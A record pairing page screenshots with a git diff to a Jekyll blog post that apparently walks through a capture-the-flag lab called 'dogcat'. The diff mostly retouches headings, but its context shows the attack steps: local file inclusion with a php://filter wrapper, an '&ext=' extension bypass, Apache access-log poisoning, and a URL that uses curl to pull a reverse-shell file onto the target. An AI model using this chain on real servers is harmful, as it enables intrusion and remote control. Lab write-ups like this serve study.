

Before and after one commit to AaronBray/AaronBray.github.io, a Jekyll site: the page built from _posts/2025-10-20-dogcat.md, in a window 1280 px wide and 1400 px high, scrolled down 602 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2025-10-20-dogcat.md

```diff
--- a/_posts/2025-10-20-dogcat.md
+++ b/_posts/2025-10-20-dogcat.md
@@ -19,6 +19,8 @@
 {% endhighlight bash %}
 
 ## Let's navigate to the webpage and attempt LFI (Local File Injection)
+
+********PIC
 <br>
 ## Clicking the dog or cat image reveals the "view" parameter
 ## Modifying this to /etc/passwd we get an error message
@@ -37,10 +39,11 @@
 <br>
 
 ## Let's again try /etc/passwd
-## We get another error message specifying that there is no ‘/etc/passwd.php’ file
+## We get another error message
 
 ********PIC
 
+## This says that there is no ‘/etc/passwd.php’ file
 ## It looks like the web server is adding '.php' to our request
 <br>
 {% highlight bash %}
@@ -48,7 +51,8 @@
 If we include a .php file we wont be able to see the actual PHP code since it runs on the server.
 A work-around is to use a handy PHP wrapper to base64 encode the file, then decode later
 {% endhighlight bash %}
-## Add a base64 filter converter to view the output, as php can only be viewed server side
+## Let's add a base64 filter converter to view the output
+## As php can only be viewed server side
 {% highlight bash %}
 add to URL= php://filter/convert.base64-encode/resource=
 {% endhighlight bash %}
@@ -57,11 +61,13 @@
 {% highlight bash %}
 http://<target_IP>/?view=php://filter/convert.base64-encode/resource=dog/../flag
 {% endhighlight bash %}
+## This outputs our flag in base64
 
-## This outputs our flag in base64
-## We can quickly use an online base64 decoder to get the output:
+
+********PIC
+
+## We can use an online base64 decoder to quickly get the output:
 ### [base64decode.org/](https://www.base64decode.org/)
-<br>
 {% highlight bash %}
 <?php
 $flag_1 = "THM{Th1s_1s_N0t_4_Catdog_ab67edfa}"
@@ -70,7 +76,7 @@
 ## Decoding the file we can verify it is php and that is why it was not output originally
 
 <br>
-## Lets look at the index file
+## Lets have a look at the index file
 ## Maybe we can bypass the .php extension from being added altogether
 {% highlight bash %}
 http://<target_IP>/?view=php://filter/convert.base64-encode/resource=dog/../index
@@ -82,15 +88,15 @@
 $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
 {% endhighlight bash %}
 ## There is an ‘ext’ parameter that specifies the file extention
-If it is not set then it will be .php by default.
+## If it is not set then it will be .php by default.
 ## This explains why .php is appended to all file requests.
 <br>
-## To bypass this we just add the ‘&ext=’ parameter to the end
+## To bypass this we just add the &ext= parameter to the end
 <br>
 ## We should have everything we need to bypass the filter now
 {% highlight bash %}
-1. Include dog or cat
-2. Add &ext= to the end of URL
+"1. Include dog or cat
+2. Add &ext= to the end of URL"
 {% endhighlight bash %}
 ## We know that the Apache web server by default has an access log.
 ## We can view this log at:
@@ -131,8 +137,7 @@
 http://<target_IP>/?view=./dog/../../../../var/log/apache2/access.log&ext=&cmd=curl <Your_IP>/php_monkey.php > hacked.php
 {% endhighlight bash %}
 (note i could not get this to work with the apache server-- needed to use python server and had no issues)
-
-## ***You can verify the reverse shell is uploaded looking for the get request
+<br>
 
 We can start a listener
 {% highlight bash %}
```
